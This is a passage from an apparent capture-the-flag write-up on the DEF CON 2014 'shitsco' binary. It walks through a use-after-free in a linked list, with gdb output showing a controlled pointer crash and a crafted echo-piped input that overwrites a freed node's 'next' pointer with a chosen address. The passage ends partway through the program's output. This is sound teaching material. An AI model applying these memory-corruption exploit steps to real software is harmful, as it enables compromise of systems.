 Beautiful! We added 'aaaaaaaaaaaaaaaa' and 'bbbbbbbbbbbbbbbb', then freed them both (as I mentioned earlier, we have to empty out the list). Then we add 'c' with the value of 'AAAAAAAAAAAAAAAA', which should take over the memory that the list's 'head' points to. We, therefore, expect that the name, the value, the previous, and the next pointers all point to 0x41414141, so it's crashing when trying to dereference one of them.

And sure enough, we can verify with a debugger (I used a string with four different values so we can see what's happening):

<pre>
$ gdb -q ./shitsco
Reading symbols from /home/ron/defcon-ctf-2014/shitsco/shitsco...(no debugging symbols found)...done.
(gdb) run
Starting program: /home/ron/defcon-ctf-2014/shitsco/./shitsco

 oooooooo8 oooo        o88    o8
888         888ooooo   oooo o888oo  oooooooo8    ooooooo     ooooooo
 888oooooo  888   888   888  888   888ooooooo  888     888 888     888
        888 888   888   888  888           888 888         888     888
o88oooo888 o888o o888o o888o  888o 88oooooo88    88ooo888    88ooo88

Welcome to Shitsco Internet Operating System (IOS)
For a command list, enter ?
$ <strong>set a aaaaaaaaaaaaaaaa</strong>
$ <strong>set b bbbbbbbbbbbbbbbb</strong>
$ <strong>set a</strong>
$ <strong>set b</strong>
$ <strong>set c AAAABBBBCCCCDDDD</strong>
$ <strong>show</strong>
c: AAAABBBBCCCCDDDD

Program received signal SIGSEGV, Segmentation fault.
<span class="Constant">0x08048e98</span> in ?? ()
(gdb) x/i <span class="Identifier">$eip</span>
=&gt; <span class="Constant">0x8048e98</span>:   mov    eax,DWORD PTR [ebx]
(gdb) <span class="Constant">print</span>/x <span class="Identifier">$ebx</span>
$1 = <span class="Constant">0x43434343</span>
</pre>

Excellent! It's crashing when reading the 'next' pointer! That means we need to construct an appropriate struct in memory that we can point to. Or... we can just use the 'head' entry, which happens to be at 0x0804C36C. This will cause an infinite loop, but I'm okay with that.

I'm sick of typing manually, plus we want to start using some non-ascii characters, so let's do it all on the commandline:

<pre>
$ echo -ne <span class="Constant">'set a aaaaaaaaaaaaaaaa\nset b bbbbbbbbbbbbbbbb\nset a\nset b\nset c AAAABBBB\x6c\xc3\x04\x08DDDD\nshow\n'</span> | ./shitsco

 oooooooo8 oooo        o88    o8
888         888ooooo   oooo o888oo  oooooooo8    ooooooo     ooooooo
 888oooooo  888   888   888  888   888ooooooo  888     888 888     888
        888 888   888   888  888           888 888         888     888
o88oooo888 o888o o888o o888o  888o 88oooooo88    88ooo888    88ooo88
